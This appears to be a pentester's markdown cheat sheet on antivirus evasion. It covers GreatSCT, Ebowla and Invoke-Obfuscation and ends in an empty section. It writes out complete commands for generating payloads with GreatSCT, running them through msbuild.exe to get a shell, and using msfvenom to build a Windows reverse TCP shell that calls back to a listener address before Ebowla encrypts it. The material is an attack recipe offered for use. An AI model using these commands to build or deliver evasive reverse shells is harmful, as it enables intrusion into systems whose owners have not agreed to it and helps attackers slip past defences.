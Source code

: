 

### GreatSCT

Install and generate a payload:

```
root@kali:$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
root@kali:$ cd ~/tools/GreatSCT/setup
root@kali:$ ./setup.sh
root@kali:$ cd .. && ./GreatSCT.py
...generate a payload...
root@kali:$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

root@kali:$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)



### Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.167 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```



### Invoke-Obfuscation

* [github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* [www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)



### Out-EncryptedScript.ps1


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)
